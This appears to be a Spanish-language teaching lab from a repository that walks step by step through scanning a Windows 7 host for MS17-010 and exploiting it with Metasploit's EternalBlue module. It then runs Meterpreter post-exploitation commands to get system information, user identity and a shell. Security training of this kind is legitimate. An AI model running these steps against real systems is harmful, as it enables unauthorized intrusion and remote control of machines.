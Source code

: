Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
![alt text](./lab01-images/lab01-fig2-msf-console.PNG "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
**Exploiting**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST < Rhost-id > 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
 
**Post Exploitation**
```bash
Sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.PNG "Metasploit framework")
```bash
Getuid
```
![alt text](./lab01-images/lab01-fig7-msf-console.PNG "Metasploit framework")
```Bash
Shell
```
![alt text](./lab01-images/lab01-fig5-msf-console.PNG "Metasploit framework")

Enlace para mayor información
https://www.metasploit.com/
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/